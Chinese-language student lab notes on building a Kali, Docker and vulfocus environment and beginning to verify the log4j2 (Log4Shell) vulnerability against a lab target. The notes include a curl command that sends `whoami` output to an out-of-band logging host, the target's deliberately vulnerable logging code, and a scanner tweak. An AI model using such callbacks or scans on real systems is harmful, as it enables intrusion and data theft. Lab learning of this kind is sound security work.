## Mandy

### 综合实践

#### 视频资料学习

- 内容提纲
  基础运行环境准备
  漏洞攻防环境现状
  漏洞攻防环境搭建
  漏洞攻击
  漏洞利用监测
  漏洞利用防御与加固


##### 一. 基础运行环境准备

- 准备一个kali的虚拟机镜像
  网络设置--网络地址转换NAT（方便虚拟机有互联网连接）、仅主机网络（方便本地终端连接虚拟机）

- 开启虚拟机查看ip
  >ip a

  

  ip地址成功分配
  
  若有一块没有解决方式为
  >sudo vim /etc/network/interfaces

  文件修改如下，增添：
  ```
  allow-hotplug eth0
  iface eth0 inet dhcp

  allow-hotplug eth1
  iface eth1 inet dhcp

  ```
  然后
  >sudo ifdown eth0 && sudo ifup eth0

  >sudo ifdown eth1 && sudo ifup eth1

  查看发行版本信息：
  >lsb_release -a

  查看内核信息：
  >uname -a

- ssh服务
  
  >ssh kali@ip

  
  
  linux没有开启ssh服务

  在虚拟机中，设置开机自启动
  >sudo systemctl enable ssh

  启动ssh
  >sudo systemctl start ssh

  查看
  >ps aux | grep ssh

  

  重新连接
  

  配置免密登录
  >ssh-copy-id -i ~/.ssh/con
  >ssh-copy-id -i ~/.ssh/id_rsa.pub kali@IP
  >ssh kali@IP

##### 二. 漏洞攻防环境现状


##### 三. 安装docker和拉取镜像

- 虚拟机中：
  >git clone https://github.com/c4pr1c3/ctf-games.git
  >cd ctf-games
  >ls -l
  >cd fofapro
  >ls



- 安装docker
  更新
  >sudo apt update

  - 出现报错
    ```
    11 packages can be upgraded. Run 'apt list --upgradable' to see them.
    W: https://download.docker.com/linux/ubuntu/dists/zesty/InRelease: Key is stored in legacy trusted.gpg keyring (/etc/apt/trusted.gpg), see the DEPRECATION section in apt-key(8) for details.
    ```
   
    通过chatAI搜索问题解决办法得：
    下面是一套详细的解决步骤，用于解决“Key is stored in legacy trusted.gpg keyring”警告以及更新软件包的问题：

    1. 备份旧的 trusted.gpg 文件（如果有需要）
      >sudo cp /etc/apt/trusted.gpg /etc/apt/trusted.gpg.backup

      这样可以备份旧的 trusted.gpg 文件，以防需要恢复。

    2. 删除旧的 trusted.gpg 文件：
   
      >sudo rm /etc/apt/trusted.gpg

      这将删除旧的 trusted.gpg 文件，系统将在需要时重新生成。

    3. 下载并导入 Docker GPG 密钥：
   
      >curl -fsSL https://download.docker.com/linux/ubuntu/gpg | gpg --dearmor | sudo tee /etc/apt/trusted.gpg.d/docker-archive-keyring.gpg >/dev/null

      这个命令将下载 Docker GPG 密钥，并将其导入 `/etc/apt/trusted.gpg.d/docker-archive-keyring.gpg` 文件中。

    4. 更新软件包列表：

      >sudo apt update

      这将更新软件包列表，同时导入了新版本的 Docker GPG 密钥。

    5. 查看可升级的软件包：

      >apt list --upgradable

      这个命令会列出所有可以升级的软件包，方便你进行选择。

    6. 升级软件包：
   
      >sudo apt upgrade

      运行此命令来升级可用的软件包。

    问题解决

    >sudo apt install -y docker docker-compose jq

  添加当前用户(可以使后面的很多docker命令不需要sudo)
  >sudo usermod -a -G docker kali

  在`/etc/docker/daemon.json`中添加
  ```
  {
      "registry-mirrors":["https://docker.mirrors.ustc.edu.cn/"]
  }
  ```
  
  重启docker镜像服务
  >systemctl restart docker

  - 出现报错：
    ```
    Job for docker.service failed because the control process exited with error code.
    See "systemctl status docker.service" and "journalctl -xeu docker.service" for details.
    ```
    查看Docker服务的状态：
    >systemctl status docker.service

    查看Docker服务的详细日志：
    >journalctl -xeu docker.service

    结果如下：
    ```
    The unit docker.service has entered the 'failed' state with result 'exit-code'.
    Jul 17 07:03:14 kali systemd[1]: Failed to start docker.service - Docker Application C> 
    ░░ Subject: A start job for unit docker.service has failed
    ░░ Defined-By: systemd
    ```
    
    通过ChatAI查询获得以下解决方式：

    - 清理残留进程和套接字：
        ```
        sudo systemctl stop docker.socket
        sudo systemctl stop docker.service
        sudo rm /var/run/docker.sock
        sudo systemctl start docker.service
        ```
        问题没有解决
    


    - 检查Docker配置：是否有格式错误（检查未发现）


    - 尝试重新安装Docker
        
        可能存在Docker软件包损坏或配置文件被破坏的情况。尝试重新安装Docker以修复可能的错误。运行以下命令

        ```
        sudo apt update
        sudo apt remove --purge docker.io
        sudo apt install docker.io
        ```

        执行到`sudo apt remove --purge docker.io`出现报错`E: dpkg was interrupted, you must manually run 'dpkg --configure -a' to correct the problem.`

        执行`dpkg --configure -a`进行修复

        重新执行docker安装操作，结果报错找不到docker包。。。。。

    - 尝试添加Docker官方源：
        ```
        sudo apt update
        sudo apt install -y apt-transport-https ca-certificates curl software-properties-common
        curl -fsSL https://download.docker.com/linux/ubuntu/gpg | sudo gpg --dearmor -o /usr/share/keyrings/docker-archive-keyring.gpg
        echo "deb [arch=amd64 signed-by=/usr/share/keyrings/docker-archive-keyring.gpg] https://download.docker.com/linux/ubuntu $(lsb_release -cs) stable" | sudo tee /etc/apt/sources.list.d/docker.list > /dev/null
        ```

    - 更新软件包：
        >sudo apt update

        又报错。。。。。。

        ```
        Err:3 https://download.docker.com/linux/debian kali-rolling Release
        404  Not Found [IP: 13.32.121.78 443]
        Reading package lists... Done
        E: The repository 'https://download.docker.com/linux/debian kali-rolling Release' does not have a Release file.
        N: Updating from such a repository can't be done securely, and is therefore disabled by default.
        N: See apt-secure(8) manpage for repository creation and user configuration details.
        ```

    决定恢复备份，重新做人。。

- 重新尝试安装docker
  
  完成前面基础部分，虚拟机生成备份。

  >sudo apt update

  >sudo apt install -y docker.io docker-compose jq

  

  添加用户(使后续的docker命令操作不需要sudo)
  
  >sudo usermod -a -G docker kali

  切换到root用户

  在`/etc/docker/daemon.json`中添加
  ```
  {
      "registry-mirrors":["https://docker.mirrors.ustc.edu.cn/"]
  }
  ```
  
  
        
  重启docker引擎服务

  >systemctl restart docker

  退出root权限`exit`

  

- 拉取镜像
  
  提前拉取vulfocus镜像
  >docker pull vulfocus/vulfocus:latest

  

  重新登录一下(虽然已将用户加入到docker组里，但是需要重新登录一下才可以生效)

  >exit

  >ssh@IP

  >id

  
  
  再执行`docker pull`

  >docker pull vulfocus/vulfocus:latest

  

##### 快速上手vulfocus

- 进入vulfocus目录，执行start.sh
  
  >cd ctf-games/fofapro/vulfocus

  >ls

  >bash start.sh

  

  >docker ps

  
  
  在宿主机直接搜索IP可以看到页面
  

  输入账号/密码登录（admin/admin)

  左侧镜像管理-点击一键同步
  

  

##### 知法守法

##### 漏洞攻击导论

从单个漏洞靶标开始——一切来自于用户输入的数据都是不可信的

```
1.找到靶标的[访问入口]
2.收集[威胁暴露面]信息
3.监测漏洞存在性
4.验证漏送可利用性
5.评估漏洞利用效果
```

##### log4j2

- log4j2  CVE-2021-44228

- 找到靶标访问入口
  
  

- 漏洞原理详解
  
  [从零到一带你深入 log4j2 Jndi RCE CVE-2021-44228漏洞](https://www.anquanke.com/post/id/263325)

  [如何看待log4j2远程代码执行漏洞](https://www.zhihu.com/question/505025655)

  [Log4j2 漏洞详解 (CVE-2021-44228)](https://blog.cloudflare.com/zh-cn/inside-the-log4j2-vulnerability-cve-2021-44228-zh-cn/)

- 检测log4Shell漏洞存在性
  
  - 确认受漏洞影响组件的【版本号】
    
  - 源代码审计

  
  
  进入容器
  >docker exec -it <容器名> bash

  (可能存在bash不在环境变量等情况，可以通过改为`/bin/bash`解决)

  

  可以看到缺省情况下，目标文件`demo.jar`已经存在

  

  把`demo.jar`拉到宿主机上，用java的反编译器反编译。
  
  查看路径并退出
  >pwd

  

  >exit
  
  将文件从容器内移出
  >docker cp <容器名>:/demo/demo.jar ./
  
  

  再将文件挪到宿主机上方便读取

  找了一个在线的反编译网站
  [反编译网站](https://www.decompiler.com/jar/9b05d0c56c0f4bd582987faed8865ab1/demo.jar)

  得到所需

- 验证log4Shell漏洞可利用

  无法打开`dnslog.cn`
  
  尝试其他可代替网站，[参考文章](https://blog.csdn.net/qq_53577336/article/details/118615216#:~:text=%E6%8E%A8%E8%8D%90%E4%B8%89%E4%B8%AA%E5%A4%A7%E4%BC%97%E5%8C%96%E7%9A%84%E5%85%8D%E8%B4%B9dns%E8%A7%A3%E6%9E%90%E8%AE%B0%E5%BD%95%E7%BD%91%E7%AB%99%20http%3A%2F%2Fwww.dnslog.cn%20http%3A%2F%2Fadmin.dnslog.link,http%3A%2F%2Fceye.io%200x03%20DNSlog%E5%9B%9E%E6%98%BE%E6%B3%A8%E5%85%A5%E6%9D%A1%E4%BB%B6)

  `http://admin.dnslog.link`

  `http://ceye.io`

  经尝试第三个可以登录

  进行该网站使用方法的学习

  - 参考资料
    
    [CEYEintroduce](http://ceye.io/introduce)

    [DNSlog介绍](https://blog.csdn.net/qq_53577336/article/details/118615216#:~:text=%E6%8E%A8%E8%8D%90%E4%B8%89%E4%B8%AA%E5%A4%A7%E4%BC%97%E5%8C%96%E7%9A%84%E5%85%8D%E8%B4%B9dns%E8%A7%A3%E6%9E%90%E8%AE%B0%E5%BD%95%E7%BD%91%E7%AB%99%20http%3A%2F%2Fwww.dnslog.cn%20http%3A%2F%2Fadmin.dnslog.link,http%3A%2F%2Fceye.io%200x03%20DNSlog%E5%9B%9E%E6%98%BE%E6%B3%A8%E5%85%A5%E6%9D%A1%E4%BB%B6)

    [CEYE平台的使用](https://dzxindex.github.io/2021/12/14/security-CEYE/#ceye-%E6%98%AF%E4%BB%80%E4%B9%88)

    [CEYE平台的使用max](https://www.cnblogs.com/zhaijiahui/p/9160913.html)

  注册后可以看到，在用户详情页`http://ceye.io/profile`下图所示,可以看到自己的域名标识符`identifier`。对于每个用户，都有自己唯一的域名标识符，如：abcdef.ceye.io。所有来自于abcdef.ceye.io或*.abcdef.ceye.io的DNS查询和HTTP请求都会被记录。通过查看这些记录信息，可以确认并改进自己的漏洞研究方案。

  

  DNS查询可以以多种不同的方式进行解析。CEYE.IO平台提供了一台DNS Server来解析域名。它的 nameserver address 被设置为自己的服务器IP，因此所有关于ceye.io 的域名的DNS查询最终都会被发送到CEYE的DNS服务器。

  在终端中使用nslookup

  
 
  可以在浏览器端看到记录
  


  >curl -X POST http://ip.port.abcdef.ceye.io/`whoami`?p=http -d data=http

  

  在后台，CEYE.IO平台将记录客户端请求的URL，远程IP地址，Http Method，Data，User Agent，Content Type等信息。

  

--------------
　自动化检测方式

  >git clone https://github.com/fullhunt/log4j-scan

  

  >cd log4j-scan

  >sudo apt update && sudo apt install -y python3-pip

  >pip3 install -r requirements.txt
  
  

  根据缺陷代码，可以得知接受payload字段，但是当前扫描程序里面没有payload字段。

  ```
    public String hello(String payload) {
    System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");
    System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
 
    /* 以下为缺陷代码片段开始 */
    logger.error("{}", payload);
    logger.info("{}", payload);
    logger.info(payload);

  ```

  修改`log4j-scan.py`

  编辑

  ```
  post_data_parameters = ["username", "user", "email", "email_address", "password"]
  ```

  改为

  ```
  post_data_parameters = ["username", "user", "email", "email_address", "password", "payload"]
